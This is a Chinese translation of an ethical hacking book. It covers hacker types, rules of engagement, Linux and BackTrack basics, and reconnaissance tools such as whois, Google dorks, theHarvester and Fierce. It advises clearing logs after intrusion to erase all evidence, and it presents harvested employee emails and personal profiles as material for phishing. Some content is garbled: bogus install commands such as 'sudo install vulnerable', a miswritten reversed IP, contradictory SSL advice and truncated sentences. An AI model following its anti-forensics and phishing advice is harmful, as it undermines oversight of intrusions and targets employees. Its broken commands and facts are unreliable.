今天，当你谈论黑客时，脑海中的形象是一个入侵系统的人。然而，黑客并不总是坏人。根据其动机，黑客主要分为三类：

- **白帽黑客**：白帽黑客通过渗透测试来发现漏洞。这些黑客受组织雇佣。
- **黑帽黑客**：也被称为破解者（cracker）。黑帽黑客会利用他们拥有的知识盗取信息。
- **灰帽黑客**：出于负面目的入侵系统，同时向组织提供服务的人。灰帽黑客这一刻可能是“好人”，下一刻可能就是“坏人”。

上述上述类别，还有其他类型的黑客，包括：

- **黑客行动主义者 (Hacktivist)**：这些黑客团体通过入侵系统让自己的声音被听到。其动机可能是政治、人权、言论自由或活动人士为之奋斗的任何其他事业。
- **脚本小子 (Script Kiddie)**：这种黑客可以破坏他人创建的目标。然而，这种黑客缺乏关于漏洞利用（exploits）如何工作的知识。
- **精英黑客 (Elite hacker)**：精英黑客对漏洞利用和黑客软件有深入的理解。这种黑客可以创建或修改黑客软件，并轻松破解安全系统。当漏洞利用失效时，这种黑客会找到方法修改它，即使该漏洞利用是别人编写的。

## 理解黑客术语

为了帮助你阅读本指南，你需要理解一些术语。

- **漏洞 (Vulnerability)**：指组织安全系统中的弱点或逻辑漏洞。它是攻击者获取组织信息的端口。漏洞会导致黑帽黑客进入系统并导致数据泄露。
- **资产 (Asset)**：指组织中存储信息的数据或设备。资产需要保护，免受授权查看和操作数据以外的任何人的。
- **威胁 (Threat)**：对组织已建立的计算机安全系统造成的迫在危险。这可能代表一个试图未经授权访问计算机系统的恶意黑客，或者恶意人员声称将获得系统访问权限。
- **漏洞利用 (Exploit)**：漏洞利用是允许黑客获取计算机访问权限的东西。

系统。这种漏洞通常以软件或算法的形式出现。通过漏洞，黑客可以利用计算机系统中的缺陷。

## 风险

在成功利用漏洞后，黑客会导致哪些损害？这些对资产的损害构成了风险。

## 渗透测试

在渗透测试中，道德黑客伪装成黑客，以暴露并记录计算机系统中的漏洞。它包含了一组黑客用于测试组织安全性的系列方法和技术。

## 介入准备与交战规则 (Pre-Engagement and Rules of Engagement)

与黑客攻击（黑客可以挑选任何系统进行入侵）不同，道德黑客涉及黑客与组织之间的协议。为了破解安全系统，道德黑客及其客户需要达成共识。达成协议后，黑客需要确保他们遵守所有的交战规则。这些规则包括使用的方法论、攻击时长、目标和里程碑，以及黑客的责任和义务等。

黑客需要与客户达成一致的部分交战规则包括：

- 双方签署“保密协议”和“破解许可””表格。
- 需要进行测试或破解的计算机系统部分。
- 攻击所需的持续时间——即开始和结束日期。
- 黑客将使用的方法。
- 允许和禁止的技术。
- 责任和义务。如果你进入了不应被访问的系统，或者访问了信用卡详情等信息，相关的责任和义务将防止你使用这些信息。

由于你需要分阶段执行道德黑客，因此需要设定里程碑来帮助跟踪进度。你可以将攻击分为几个阶段，每个阶段持续固定的时间。这些阶段可能包括：

- 范围定义
- 侦察
- 扫描
- 漏洞利用
- 提后利用 (Post Exploitation)
- 报告

作为一名道德黑客，你将根据要破解的计算机系统部分，为上述每个阶段留出足够的时间。

## 道德黑客方法论

你可以使用不同的方法论执行道德黑客，包括：

### OSSTMM – 开源安全测试方法手册

该方法论包含了渗透测试中执行的大部分步骤——它是一种深度安全测试，包含了对计算机系统几乎所有组件的破解。这种方法强度且近乎繁琐，在大多数情况下，日常的道德黑客工作中是不行的。同样，该方法需要大量的资源，而大多数公司无法或不愿提供这些资源。

### NIST

NIST 是一种更全面的道德黑客方法论，通过四个简单的步骤执行：规划、发现、攻击和报告。在第一步规划中，道德黑客决定要执行的任务任务。规划之后是发现阶段，黑客在这一阶段收集信息、扫描网络、识别服务、检测操作系统，然后评估计算机系统的漏洞。

发现之后，真正的攻击开始了。攻击阶段非常详尽，包括获取访问、提升权限、系统浏览以及安装额外的工具。如果你攻破了目标，且该系统有多个接口，你将返回发现阶段，并在不同的接口上重新开始。NIST 道德黑客方法论涉及规划后的报告和攻击后的报告。

### OWASP

OSSTMM 和 NIST 方法论更多地关注网络攻击，而非应用程序攻击。OWASP 是一种简单的方法论，涉及测试应用程序的安全性。这种方法论由 Web 应用研究人员开发，是一种遵循 Web 应用测试所有步骤的深度方法论。

## 道德黑客分类

在黑客领域，组织聘用你的服务来测试其系统的安全性。在定义攻击范围的同时，攻击任务也一并定义。根据客户想要破解的方式以及所测试的安全范式，攻击可以分为白盒、黑盒或灰盒。

## 黑盒道德黑客

黑盒道德黑客是指客户除了提供关于组织的少数细节外，不提供任何信息。在这里，黑客仅被赋予需要测试的 IP 范围。因此，黑客将找到破解系统所需的所有其他细节。如果 Web 应用需要道德黑客测试，客户将不提供应用程序的源代码。这种形式的道德测试在外部渗透测试中很常见。

## 白盒/道德黑客

在这里，组织提供了黑客执行破解所需的所有细节。这些细节包括服务器版本、目标操作系统、运行的应用程序等。如果黑客要测试一个 Web 应用，将提供该应用程序的源代码。白盒破解在内部系统测试中很常见，组织并不担心信息泄露。

## 灰盒黑客

在灰盒黑客中，会提供部分细节，而保留另一部分。客户可能会披露运行的应用程序和操作系统，但可能不会披露所有运行程序的版本。在 Web 应用测试的情况下，会提供测试账户、数据库和后端服务器等细节。

## 不同的道德黑客环境

### 网络攻击

网络内攻击中，黑客针对网络环境检查漏洞和威胁。道德黑客将测试网络的外部和内部属性。在外部测试中，黑客测试外部 IP 地址；而在内部，黑客加入内部网络并揭发现其漏洞。根据交战规则，黑客可能会获得网络的 VPN 访问，或者他们必须物理访问网络环境来进行攻击。

## Web 应用攻击

大多数在线应用持有关键数据，这些数据一旦被盗，将损害许多人的隐私。这些数据包括用户名、密码和信用卡号。确实，Web 应用攻击很常见。

### 移动应用攻击

今天，大多数组织使用某种形式的 iOS 或 Android。移动应用攻击是一种新的测试，以确保这些应用是安全的。

### 社会工程测试

社会工程可能是网络攻击的一部分。在这里，你将利用漏洞、钓鱼等方法让用户执行。

### 物理系统攻击

物理测试并不常见。在这里，你作为道德黑客将被进入组织并测试锁等安全措施。在每次道德黑客任务后，你需要编写一份报告，突出漏洞以及应该采取的措施。

## 总结

本章介绍了黑客、不同的黑客类型以及基础术语。我们还查看了你可以使用的方法论。在下一章中，我们将介绍你需要的工具。

## 第2 章

## Linux 及其在道德黑客中的

### 引言

要成为一名合格的道德黑客，你需要了解 Linux 的基础。Linux 是一个强大的操作系统，而且支持许多道德黑客所需的工具。其他操作系统如 Mac 和 Windows 仅支持少数工具。如果你已经在电脑上使用 Linux 或对它很熟悉，可以跳过这个小节。本章只介绍操作系统的基础知识，以帮助你安装道德黑客所需的工具。

- Redhat 适用于管理目的
- Debian Linux 用于开源软件
- Ubuntu 适用于个人电脑
- Solaris 用于商业计算机
- Mac OS X 适用于 Apple 电脑
- BackTrack 适用于道德黑客

## Linux 文件结构

使 Linux 成为黑客特殊操作系统的一个因素是它的文件系统——在 Linux 上，一切都以文件或进程的形式出现。Linux 文件系统中唯一的例外包括目录（即其他文件列表的文件）、特殊文件如 `/dev`（它们是

输入输出机制、链接（一种使文件在系统多个部分可见的系统）、套接字（允许进程间网络通信）以及允许进程之间相互通信的管道。

Linux 中的文件类型以符号的形式显示，包括：

- - 表示普通文件
- **d** 表示目录 (Directory)
- **l** 表示链接 (link)
- **c** 表示特殊文件
- **s** 表示套接字 (socket)
- **p** 表示命名管道 (named pipe)
- **b** 表示块设备

### 根目录下的目录

- **/bin** 是包含用户、系统和系统管理员共享程序的目录。
- **/boot** 包含启动文件、内核 vmlinuz，以及某些发行版中的 grub 数据。
- **/dev** 存储对 CPU 外围硬件的引用，并以具有特殊属性的文件形式表示。
- **/etc** 目录包含重要的系统配置文件，等同于 Windows“控制面板”中的文件。
- **/home** 是普通用户的目录。
- **/misc** 用于杂项。
- **/lib** 存放库文件，例如系统和用户软件所需的库文件。
- **/initrd** 仅在某些发行版中找到，包含启动信息。不应删除该文件。
- **/last/found** 存放失败期间保存的所有文件。
- **/net** 是整个远程文件系统的挂载点。
- **/mnt** 是外部文件系统（如数码相机或 CD-ROM）的挂载点。
- **/proc** 包含系统资源信息。
- **/opt** 存放额外的第三方软件。
- **/root** 是管理员用户的家目录。
- **/usr** 所有用户链接程序的程序和库。
- **/sbin** 包含系统和系统管理员所需的所有程序。
- **/var** 存放所有变量和临时文件，例如用户创建的消息队列和日志文件。
- **/tmp** 是系统使用的临时空间，重启时会清理。不应在此空间内保存任何文件。

# Linux 常用重要命令

`rm`: 删除文件或目录

`cd`: 切换目录

`chmod`: 更改文件权限位，从写改为读，反之亦然

`chgrp`: 更改组所有权

`screen`: 屏幕管理器，通过终端模拟器创建后台进程。

`man`: 手册/帮助

`chown`: 更改文件所有权

`pwd`: 打印当前/工作目录名称

`ssh`: 用于远程连接的安全外壳

`cd..` 移动到上级目录

`mkdir`: 创建新目录

`rmdir`: 目录

`locate`: 在目录或系统中查找文件

`cp`: 拷贝文件 `mv`: 移动文件/目录或重命名文件或目录

`free -h`: 检查空内存运行情况

`mount`: 挂载设备如 cdrom/USB

`whereis`: 在系统中查找文件

`zip`: 压缩目录/文件

`df`: 列出分区表

`cat`: 合并文件

`umount`: 卸载(弹出)USB

`ifconfig`: 显示接口详情

`ls`: 列出目录内容

`w`: 显示登录用户及其活动

`netstat`: 显示本地或远程已建立的连接

`top`: 显示系统管理器

`nslookup`: 交互式查询域名服务器

`touch`: 创建文件

`nano`: 文件编辑器

`dig`: DNS 实用

`vi`: vim 文件编辑器

### Linux 服务

传统的 Linux 服务位于 `/etc/init.d` 目录。在该目录下，有用于执行 Linux 加载时启动的服务或程序的脚本。

### Linux 密码存储

Linux/Unix 中的密码存储在 `/etc/passwd` 文件中，也可以在 `/etc/shadow` 文件中。现代基于 Unix 的系统仅将密码存储在 `/etc/shadow` 文件，但你可能会发现某些旧版本仍然将其存储在 `/etc/passwd` 中。在密码存储中，根据你电脑运行的 Linux 版本，用户名后有一个哈。在大多数 Linux 版本中，MD5 是最常见的哈希格式。

### Linux 日志

为了让道德黑客成功，他们他们入侵系统后需要清理日志文件。因此，你需要知道日志文件的存储位置。通过清理日志文件，你可以清除你曾进入系统的所有证据。

Linux 日志文件存储在 `/var/log` 和 `/var/adm` 目录中。然而，像 httpd 等服务有自己存储日志的目录。对于 Linux，显示从 bash 使用的所有命令的 `.bash_history` 存储在 `/home` 目录下。

# Linux Linux 应用程序

无论你选择哪种 Linux 版本，都会遇到大部分或全部应用程序：

- Apache 是一个开源 Web 服务器，大多数网站都运行在其上
- MySQL 是基于 Unix 的系统中流行的数据库
- PureFTP 是所有基于 Unix 的系统的默认 FTP 服务器
- Sendmail 是 Linux 上的免费邮件服务器，开放版和商业版均可用
- Postfix 是 Sendmail 的替代方案
- Samba 提供打印机和文件共享服务，并可以与 Windows 系统轻松集成

# 用于道德黑客的 BackTrack 发版

现在你已经了解了一些 Linux 基础，BackTrack 是由 Offensive Security 专门为道德黑客开发的 Linux 发行版。让这个发行版深受道德黑客流行的它为黑客提供了多种工具、服务、设备和网络。

BackTrack 更新为不同的版本，但它们具有相同的功能和特性。工具可能会随着每次升级升级到更好的工具，但性能保持不变。该发行版提供两种口味——Gnome 和 KDE。Gnome 是最新引入的。

持续一段时间，直到你在屏幕上看到 `root@bt:`。

- 2. 输入 "`startx.`" 启动系统。
- 3. 进入 BackTrack 后，你现在可以将其安装在硬盘上了。要执行这一点，只需点击“Install BackTrack”，安装就会开始。
- 4. 欢迎界面将显示你需要选择所选语言的地方。
- 5. 然后选择你的时区，如果你连接了互联网，时区将自动更新。
- 6. 会弹出一个窗口，你需要在其中选择所需的键盘布局。
- 7. 接下来，你需要设置分区大小，但可以保持默认值。
- 8. 完成所有设置后，将出现安装摘要，你只需要点击“Install”，安装就会开始。安装需要几分钟时间，之后会提示你重启电脑。

### BackTrack 基础

BackTrack 支持你需要的大多数道德黑客和渗透测试工具。虽然该发行版一直在更新，但工具只会变得更好，而使用 BackTrack 的方法保持不变。大多数新手需要频繁使用 BackTrack 上的 KDE 菜单。在使用 KDE 之前，你需要使用命令行将所有需要的目录都就绪。一旦你熟悉了 BackTrack，你将更容易遵循书中后续章节中的所有技巧和技巧。

在 BackTrack 上你需要访问的目录之一是 `/pentest` 目录，因为它让你能够访问所有需要的渗透测试工具。要访问 pentest，打开 shell 并输入“`cd/pentest`”，然后输入“`ls`”进入 pentest 目录下的所有子目录。

### 在 BackTrack 上更改屏幕分辨率

BackTrack 5 的默认屏幕分辨率为 800 x 600 —— 当你需要进行道德黑客时，这个分辨率很小且不利使用。要更改屏幕分辨率，请遵循以下步骤：

- 点击 Start >> Settings >> System Settings（设置）
- 从 Hardware（硬件）部分选择“Display and Monitor”（显示和显示器）
- 选择你偏好的尺寸并点击“Ok”。弹出的对话框提示你确认更改。接受配置后，你就大完成了。

### BackTrack 简单设置

### 更改密码

你应该更改默认的 BackTrack 密码，以防止恶意人员入侵你的网络。要执行这一点，使用命令“`passwd`”，然后就完成了。

### 清除屏幕

在 Linux BackTrack 上使用“`clear`”命令清除屏幕，或在 Windows 命令提示符中使用“`cls`”。

### 列出目录内容

使用命令“`ls`”列出目录的所有内容，并使用 –l 参数列出当前目录的权限。

### 搜索特定目录的内容

如果你需要搜索特定目录的内容，你需要输入命令“`ls/pentest/enumeration`”。在这种情况下，你搜索的特定目录是 enumeration 目录，你可以将其替换为任何你需要搜索的目录。

### 搜索文件内容

运行命令“`cat password.txt`”获取密码文件的内容。

### 创建目录

像在 Windows 中一样使用命令 `mkdir directoryname`。

### 切换目录

像在 Windows 中一样使用 `cd/pentest/enumeration` 命令。然而，在 Windows 中你会使用 \，而在 Linux 中你将使用 /。

### 创建文本文件

使用命令 `touch hack.txt` 创建一个名为 hack 的文本文件。

### 复制文件

使用命令 `cp /var/www/filename /pentest/web/filename` 将文件从 `/var/www` 目录复制到 `/pentest/web/` 目录。

### 访问当前工作目录

使用命令 `pwd` 打开当前工作目录。

### 重命名文件

在 Linux 上，没有特定的命令可以重命名文件。然而，你可以发布 `mv` 命令，`mv oldfile.txt new.txt`，来重命名文件。

### 移动文件

使用命令 `mv hack.txt/pentest/enumeration/` 将文件 `hack.txt` 移动到 `enumeration` 目录。

### 删除文件

使用命令 `rm file name` —— 它对所有目录都有效。

### 在 BackTrack 内部定位文件

如果你需要在 BackTrack 中定位文件，可以使用 `locate` 命令。假设你需要访问一个工具 Harvester。使用命令，`locate harvester.`。

### 在 BackTrack 上访问文本编辑器

BackTrack 没有记事本或任何花哨的文本编辑器。当你需要文本编辑器时，可以使用命令行上的文本编辑器，如 `vim`、`pico`、`nano`，或者你可以安装 `kate` 或 `gedit`，这些是相当于 Windows 记事本的文本编辑器。要安装这两个文本编辑器，使用命令：

```


`apt-get install kate`

`apt-get install gedit`

通过这两个命令，BackTrack 将自动搜索网络并下载文本编辑器及其依赖项。

### 理解你的网络

你需要了解自己是否有一个有效的 IP 地址。要执行这一点，使用 "`ifconfig`" 命令，所有的配置将列出供你查看。

### dhclient

当你运行命令 `dhclient` 后跟终端接口时，你的网络将不会由 DHCP 分配静态 IP 地址。如果 `dhclient` 命令对你无效，你可以运行命令：

```
root@bt:~# /etc/network
```

*（注：原文中包含大量关于“Understand Your Network”和“dhclient”的重复内容，翻译时已根据要求进行了去重处理。）*

当对员工进行键盘记录、钓鱼、浏览器漏洞利用和其他客户端攻击时。

### 从何处获取信息

你可以从以下渠道收集信息：

- 社交媒体网站
- 搜索引擎
- 人员搜索
- 招聘网站
- 论坛
- 新闻稿

### 本地复制网站

如果你需要了解更多关于某个网站的信息，可以将其复制到本地。有不同的工具可以复制网站，但 `htrack` 是最全面的工具。你可以用它对网站进行调查，获取破解该网站可能所需的所有细节。例如，如果一个配置文件的权限设置不当，你可能会访问到目标的用户名和密码等重要信息。

在 Linux 上，你可以使用 `wget` 命令将网站复制到本地，例如：
`wget http://www.websitename.net`

你还可以使用 Website Ripper Copier 将网站复制到本地——该工具比 `htrack` 具有更多功能，因此更加出色。

### 使用 Whois 收集信息

成功的攻击需要尽可能多的细节。获取网站及其所有者信息的地方是 Whois。它是一个包含互联网上几乎所有网站详情的平台。它会向你展示网站的所有者及其电子邮箱地址。这些都是你可以用于进行社交工程攻击的细节。

你可以通过 `whois.domaintools.com` 访问 Whois 数据库。更好的是，你可以在 BackTrack 上运行以下命令来获取：

```bash
apt-get install whois
```

在已安装的 Whois 网站上搜索网站，输入以下命令：
`whois www.websitename.com`

运行命令后，你将看到重要的细节，如网站所有者的电子邮箱地址、名称服务器以及 Whois 上提供的任何其他细节。

### 寻找托管在同一服务器上的网站

大多数黑客使用称为“符号链接绕过”`Symlink Bypassing`的方法，即利用一个网站入侵同一台服务器上的其他网站。我们将在本书后面讨论符号链接绕过。现在，让我们如何找到列在同一台服务器上的域名，这种方法被称为反向 IP 查询。

### Yougetsignal.com

`Yougetsignal.com` 是一个简单的数据库，让你看到列在同一台服务器上的所有网站。在这个平台上，你只需要输入一个网站的域名，其他的就会显示出来。在 `Yougetsignal.com` 上，你可以使用名为 `ritx` 的工具执行相同的搜索。

### 定位网站

要追踪网站的位置，你需要搜索 Web 服务器的 IP 地址。你可以使用许多方法之一来确定 Web 服务器的 IP 地址，但让我们使用其中最简单的 `ping` 命令。`ping` 命令通常用于网络故障排除，它通过发送 ICMP 请求来测试网站是否运行。

输入命令：
`ping www.websitename.com`

输出将显示网站的 IP 地址。在获取 Web 服务器的 IP 地址后，你可以使用一些目录找到网站的确切位置。你可以看到追踪 IP 地址的一个工具是 `http://www.ip-address.com/ip_tracer/yourip`，它通过 Google Maps 显示 IP 地址的确切位置。

### Traceroute (追踪路由)

`Traceroute` 在 Linux 和 Windows 上均可用。该工具用于网络定位。在这里，该工具不会扫描开放端口和运行的服务。相反，它会检查目标网络上实现了防火墙、负载均衡器、网络拓扑和控制点。

`traceroute` 在 IP 头部应用 `TTL`（生存时间）字段来确定系统的位置。每当到达网络中的一个跳点时，`TTL` 值就会减少。`Traceroute` 有三种类型：

1. Windows 上使用的 ICMP Traceroute
2. TCP traceroute
3. UDP traceroute

### ICMP Traceroute

`ICMP` 是 Windows 上的默认位置跟踪服务。然而，该服务在几次请求后会给你返回超时。超时表示防火墙或 IDS 等设备可能正在拦截你的回显请求（echo requests）。

### TCP Traceroute

由于许多设备通常会拦截 ICMP Traceroute，你需要尝试其他服务，例如 TCP 或 UDP 追踪——这些被称为 4 层追踪路由。默认情况下，Linux BackTrack 带有 TCP Traceroute。要找到它，请使用以下命令：

```bash
apt-get install tcptraceroute
```

要定位网站，你需要在命令行中使用以下命令：
```bash
traceroute www.website.com
```

### UDP Traceroute

`UDP` 是 Linux 的追踪路由工具，与 Windows 不同，它使用 UDP 协议。在 Windows 中，命令是“tracer”，但在 Linux 中，命令是“traceroute”。

搜索网站请使用以下命令：
```bash
traceroute www.targetwebsite.com
```

### NeoTrace 和 Cheops-ng

`NeoTrace` 是一个基于图形界面的工具，让你能够轻松绘制网络地图。`Cheops-ng` 是另一个强大的工具，让你能够追踪并识别网络指纹。

### 枚举和 Web 服务器指纹

要成功枚举 Web 服务器，你需要了解后端运行的 Web 服务器。为了做到这一点，你必须采用被力和主动的信息收集技术。这意味着你将直接和间接地与目标交互，以获取所需的信息。

### 拦截响应

尝试发现运行网站的服务器版本的第一件事是发送 HTTP 请求并拦截响应。要发送 HTTP 请求，请遵循以下步骤：

- 使用 `http://portigger.net/burp/` 上的 Burp Suite
- 进入 Tools -> Options -> Network -> Settings
- 确保已配置代理
- 打开 Intercept 标签页并开启 Intercept
- 输入目标 URL：`www.target.com`
- 刷新页面以捕捉请求
- 右键点击请求并选择 "Forward"
- 捕捉响应以查看服务器版本

最后，点击 Forward 按钮发送 HTTP 请求。响应会在几秒后返回，显示服务器版本。

### Acunetix 漏洞扫描器

你也可以使用此扫描器对 Web 服务器进行指纹。该扫描器在 `acunet.com` 上免费提供。下载工具、安装并启动它来扫描你的目标。打开“website”标签页并输入目标 URL。点击 Next，你将看到 Web 服务器的版本。大多数网站使用虚假的服务器 banner 来欺骗缺乏经验的黑客，让他们认为这是一个弱服务器。然而，Acunetix 可以检测出服务器 banner 是否是伪造的。

### WhatWeb

`WhatWeb` 是 BackTrack上的一个工具。它是一个允许你主动收集网站信息的工具。通过此工具，你可以主动对网站进行指纹识别。该工具具有超过 900 个插件，你可以用它们寻找服务器、SQL 错误和目标网站的电子邮箱。默认情况下，此工具在 BackTrack 上可用。你可以在 `/pent/enumeration/web/whatweb` 看到它。

使用 `WhatWeb` 非常简单，只需输入命令 `./whatweb` 后加上网站 URL。此外，你可以同时扫描多个网站：

```bash
./whatweb target1.com target2.com
```


### Netcraft

Netcraft 是一个巨大的在线数据库，提供有关网站的可靠信息。你可以在攻击目标之前使用它进行被动侦察。你也可以用它识别 Web 服务器。

## Google 黑客 (Google Hacking)

如果使用有效，简单的 Google 搜索就能为伦理黑客揭示大量信息。你可以为目标收集非常关键的信息，包括密码。尽管 Google 不断改进其算法以实现更有针对性的搜索，但这些搜索参数被黑客用于访问敏感信息。

### 站点 (Site)

你可以使用 `site` 参数来搜索所有 Google 已索引的网页。网站管理员可以指定哪些页面应该或不应该被 Google 索引，而这些信息存储在 `robots.txt` 文件中——黑客可以通过搜索以下地址轻松地查看此文件：

`www.targetwebsite.com/robots.txt`

当你搜索时，你将看到一些网站管理员禁止的页面和一些允许的页面。有时，网站管理员会忘记阻止 Google 机器人爬取包含敏感细节的页面，导致黑客可以访问管理页和其他载有敏感细节的目录。

要使用 `site` 参数，你可以使用不同的查询语句，包括：

- `Site: www.target.com` – 此查询显示所有 Google 索引的网页。
- `Link: www.target.com` – 此查询显示所有链接到目标网站的网站。
- `Site: www.target.com Intitle:ftp users` – 此查询将显示所有标题为 "ftp users" 的用户（在大多数情况下，此查询可能不起作用）。
- `Site: www.target.com inurl:ceo names` – 此查询显示包含给定关键词的 URL URL。
- `Site: www.target.com filetype:pdf` – 此查询显示给定文件类型（在此例中）的页面

销售电子书的网站管理员可能会阻止包含电子书的 URL 被索引，从而为黑客提供了免费下载书籍的机会。

### Google 黑客数据库 (Google Hacking Database)

Google 黑客数据库并不是 Google 的产品——它由 Offensive Security（开发 BackTrack 发行版的同一拨人）建立。它是一个充满了 Google dorks 的数据库，道德黑客可以利用它来寻找不同网站的用户名、密码、邮件列表和密码哈希值。一旦打开 Google 黑客数据库，点击下拉菜单并选择你需要的文件类型。从下拉菜单中，你可以选择搜索包含用户名、敏感目录、立脚点、敏感目录、Web 服务器检测、错误信息、存在漏洞服务器、包含密码的文件以及包含“美味信息”的文件等。

搜索之后，你可以看到向公众公开的文件。

### Hackersforcharity.org/ghdb

Hackers for Charity.org 是另一个包含大量 Google dorks 的综合性数据库。在这里，你可以搜索与你的目标网站相关的信息。

## Xcode 漏洞扫描器 (Xcode Exploit Scanner)

Xcode Exploit Scanner 使用 Google dorks 扫描你的目标是否存在漏洞，包括 XSS 和 SQLI。当你读到本书的“Web 攻击（Web Hacking）”章节时，扫描漏洞将更有意义。

## 文件分析 (File Analysis)

一旦你收集了所需的信息，分析你的目标文件将揭示更多你可以用于黑入你网络的信息。下面讨论了你可以用来分析数据get某些工具：

### Foca

Foca 是一种数据分析工具，允许你在不下载文件的情况下分析数据。该工具可以从 Google、Yahoo 和 Bing 搜索各种扩展名。此外，该工具还可以搜索目标网站上的漏洞，包括 DNS 缓存嗅探和目录列出。

### 收集邮件列表 (Collecting Email Lists)

当你拥有了公司所有员工的邮箱时，你就对目标拥有了优势。你可以利用员工邮箱来发起钓鱼攻击。收集邮件列表属于被动信息收集，因为你只使用搜索引擎而不会直接与目标交互。一旦你有了这些邮箱，稍后可以使用它们进行社会工程攻击和其他暴力破解。虽然收集公司所有员工的邮箱很枯燥，但 BackTrack 提供了多种工具帮助你让搜索更简单。

你可以用来收集邮件列表的一个重要工具是 Python 编写的工具 `TheHarvester`，它利用公开数据来收集公司员工的邮件列表。你默认可以在 BackTrack 的 `/pentest/enumeration/google/harvester` 目录下访问此工具。当你需要运行此工具时，运行命令：

```
./theHarvester.py
```

例如，要为网站 `target.com` 收集邮件列表，你需要运行以下命令：

```
root@root: /pentest/enumeration/theharvester# ./theHarvester.py -d target.com -l 500 -b google
```

上述命令中的 `-l` 参数允许你限制搜索结果的数量。在上面的例子中，只会显示 500 条结果。可以使用 `-b` 参数，让 harvester 从 Google 获取结果。`-b` 参数可以更改为搜索来自 Bing、Yahoo 或 LinkedIn 的结果。你也可以更改 `-b` 参数并改用 `-all` 参数告诉 harvester 从所有搜索引擎和所有网站搜索。

一旦 harvester 向你展示了邮件列表，你现在可以在 `pipl.com` 上搜索单个邮箱。这是一个显示邮箱地址有趣信息的目录。当你在 `pipl.com` 上搜索邮箱地址时，你可能会获得该邮箱账户持有者的完整简介。你可以使用收集的信息进行社会工程攻击。

## 收集字典列表 (Gathering WordList)

一旦有了邮件列表，你现在需要找到一个用于社会工程攻击和其他暴力攻击的单词列表。你在 BackTrack 中可以使用工具之一是 CEWL，你可以用它收集一个符合目标网站暴力攻击所需的单词列表。

CEWL 默认位于 BackTrack 的 `/pentest/passwords/cewl` 目录。打开 `/pentest/passwords/cewl` 目录并使用以下命令执行它：

```bash
ruby cewel.rb –help
```

如果 CEWL 工具返回错误，你将需要安装以下软件包来辅助其功能。

```
$ sudo install ruby_configuration
```

```
$ sudo install rubyp
```

```
$ sudo install mime-types
```

```
$ sudo install spider
```

```
$ sudo install mini_exif
```

```
$ sudo install vulnerable
```

```
$ sudo install python_z
```

```
$ sudo install iftool
```

## 扫描域名 (Scanning for Domains)

在大多数情况下，网站管理员会保持域名安全，但会让子域名存在漏洞。作为道德黑客，你需要使用查询语句：

`Site: http://target.com -inurl:www`

上述查询引导搜索引擎返回结果。而 `subdomain.target.com`，它们将不会被显示。

## 使用 Harvester 搜索子域名 (Searching Subdomains with theHarvester)

你可以使用 Harvester 搜索子域名——它使用 Google

## 使用 Fierce 扫描子域名 (Using Fierce to Scan Subdomains)

另一个你可以用来扫描子名的优秀工具是 Fierce，它使用区域传输和暴力破解等方法进行枚举。更好的是，该工具可以轻松绕过 CloudFlare。默认情况下，BackTrack 在 `/pentest/enumeration/dns` 目录下提供了 Fierce。

要扫描目标的子域名，你需要运行命令 `./fierce.pl -dns <domain>`

你还可以通过使用线程参数加速搜索。使用以下命令来实现：

```
root@root: /pentest/enumeration/dns#fierce.pl -dns target.com -threads 100
```


### Knock.py

Knock.py 的工作原理与 Fierce。工具具有内置列表，但也可以使用自定义单词列表扫描域名。更好的是，如果你使用任何参数 `-zt`，该工具能够执行区域传输。

要使用 Knock.py，可以使用以下命令：

- `Python knock.py <url>` 使用内部列表扫描
- `Python knock.py <wordlist>` 使用自定义单词列表扫描

你还可以利用 Knock.py 探索许多其他选项，让你的道德攻击更成功。再次，你可以在 `https://code.google.com/p/knock/wiki/documentation` 获取 Knock.py 文档。

### WolframAlpha

当你需要扫描子域名时，WolframAlpha 也是一个很棒的网站。它只返回最重要的子域名以为你节省时间。

## 扫描网站的 SSL 版本

SSL 是安全套接层的缩写。网站管理员采用 SSL 加密通信。考虑到攻击者可能会嗅探流量，包含敏感信息的页面（如登录页面）受 https 保护。SSL 有 3.0 和 2.0 两个。SSL 2.0 是一个较低的版本，因为攻击者可以使用任何嗅探工具加密服务器和客户端之间的流量。因此，对于高度机密的页面，网站管理员

建议不要使用 SSL 3.0 或 TLS 1.0。如果你正在使用 BackTrack，可以使用预装的工具 `SSLSCAN` 来检查网站是否运行了 SSL 2.0 或 SSL 3.0。你可以在 `/pentest/enumeration` 目录下访问该工具。

要扫描网站的 SSL 版本，请在 SSL 目录下运行命令 `"sslscan targetwebsite.com"`。

# DNS 侦枚举

DNS 帮助将网站的 IP 地址转换为域名。Google 不显示为 173.194.35.144，而是显示为 Google.com。当你需要获取私有和公共服务器的信息时，可以轻松使用 DNS。

### DNS 服务器

要与 DNS 服务器交互，你需要使用 DNS 客户端，包括 `DNS` 和 `host`。

### nslookup

这是一个在 Windows 和 Linux 上均可用的工具。例如，如果你需要该工具返回某个组织的邮件服务器记录，应该按照以下步骤操作：

1. 在命令行中输入 `nslookup` 命令
2. 运行另一个命令 `set type = mx`
3. 输入域名，例如 `www.target.com`

此查询将返回 `target.com` 的邮件服务器。

更好的情况下，你还可以通过运行命令 `"set type = ns"` 来查询 `target.com` 域名的 DNS 服务器。该查询将给出与目标网站相关的所有域名。

### DIG

`DIG` 是 BackTrack 上另一个非常强大的工具。你可以使用此工具运行与 `nslookup` 相同的查询。然而，该工具具有比 `nslookup` 更丰富的功能。如果你需要使用该工具扫描 `targetwebsite.com` 的 mx 记录，你将使用以下命令：

```
dig targetwebsite.com mx
```

你也可以在上面的命令中用 `ns` 替换 `mx`，让工具返回所有与 ns 相关的记录。

### 正向 DNS 查询

正向 DNS 查询（Forward DNS Lookup）并不是搜索记录，而是使用暴力破解猜测目标网站的有效域名。例如，你可以猜如 `services.targetwebsite.net` 这样的域名。

如果域名解析到 IP 地址，则它是一个存在的域名；但如果什么都没有显示，则该域名不存在。你可以编写一个脚本来帮助你搜索有效的主机。更好的是，你可以在本章前面的部分发现的 Fierce 工具来执行攻击。

# Fierce 与正向 DNS 查询

你可以使用 Fierce 执行正向或反向 DNS 查询。要执行反向 DNS 查询，请使用以下命令：

```
./fierce.pl -dns targetwebsite.net wordlist.txt
```

该命令将通过比较列表上的所有子域名，然后尝试针对 `targetwebsite.net` 来扫描是否存在的域名。

### 使用 DIG 进行反向 DNS

在反向 DNS 中，你尝试猜测有效的主机。要使用 DIG 执行此类搜索，你需要反写目标网站的 IP 地址。例如：

Wikipedia 的 IP `208.80.152.201` 将反写为 `210.152.80.208`

在反写 IP 后，你需要向其添加参数 `".in-addr.arpa"`，然后在 `dig` 上运行 DNS PTR 查询。整个命令显示如下：

```
dig 201.152.80.208.in-addr.arpa PTR
```

# 使用 Fierce 进行反向 DNS

